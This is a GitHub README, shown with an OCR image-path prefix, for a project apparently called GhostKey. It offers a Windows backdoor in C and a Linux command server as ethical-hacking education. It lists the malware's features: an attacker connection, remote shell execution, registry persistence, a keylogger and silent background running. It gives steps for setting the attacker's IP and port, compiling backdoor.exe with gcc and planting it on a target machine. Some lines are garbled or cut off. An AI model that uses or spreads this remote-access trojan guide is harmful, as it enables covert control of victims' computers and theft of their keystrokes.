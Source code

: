 # GhostKey-Backdoor and Server for Ethical Hacking and Penetration Testing

## Overview

This repository contains a **backdoor program** and its corresponding **server** implementation, designed for ethical hacking purposes. These programs demonstrate how attackers establish connections, execute commands, and persist on a target system andit.

> **Disclaimer:** This project is strictly for educational purposes. Unauthorized use of this code is illegal. The author is not responsible for any misuse.

>**Compatibility:** The backdoor program is designed to work on **Windows 10** machines,while the server can run on a **Linux** system. The backdoor uses Windows-specific libraries,including **ws

### Development Plan (`malwareplan.txt`)
1. Establish a connection with the server.
2. Implement a shell function to handle incoming commands.
3. Ensure automatic startup after a system reboot.
4. Enable the backdoor to spawn additional programs.
5. Add directory navigation capabilities.
6. Integrate a keylogger to log user inputs.
7. Run the backdoor silently in the background without showing a console window.
## Features

### Backdoor (`backdoor.c`)
- **Server Connection:** Establishes a persistent connection to the attacker's server.
- **Command Execution:** Receives and executes shell commands from the server.
- **Persistence Mechanism:** Modifies the registry to ensure automatic execution after system reboot.
- **Directory Navigation:** Allows changing directories on the target system.
- **Keylogger Integration:** Starts a keylogger to capture keystrokes.
- **Program Spawning:** Enables the spawning of additional programs.

### Server (`server.c`)
- **Connection Listener:** Listens for incoming connections from the backdoor.
- **Command Execution:** Sends shell commands to the backdoor and displays the responses.
- **Special Commands:**
  - `persist`: Activates the backdoor's persistence mechanism.
  - `keylog_start`: Starts the keylogger on the target machine.
  - `cd <directory>`: Changes the working directory on the target machine.
  - `q`: Terminates the connection with the target.

### 

## Installation and Setup

### Prerequisites
- **Development Environment:**  
  - GCC (for compilation)
  - Linux for the server and Windows for the backdoor
- **Networking Knowledge:** Basic understanding of socket programming.
- **Environment Setup:** Ensure you have an attacker machine (Linux) and a target machine (Windows-Windows 10 advisable).

### Compiling the Programs
- **Compile the backdoor:**
#### Backdoor
1. Update the following placeholders in `backdoor.c` and `server.c` with the attacker's IP and setup PORT:
  **for backdoor.c**
    ```c
   ServIP = "<attacker-IP>";
   ServPort = <PORT-No>;
  **for server.c**
  ```c
server_address.sin_addr.s_addr=inet_addr("<attacker-IP machine>");
		server_address.sin_port=htons(<PORT-No>);
```
3. Compile the backdoor on Windows 10 using the following command using:
   **gcc backdoor.c -o backdoor.exe -lws2_32 -lwininet**
   This command will create a Windows executable backdoor.exe that can run on a **Windows 10** system.
4. Transfer the **backdoor.exe** to the target **Windows 10** machine and run it.
 
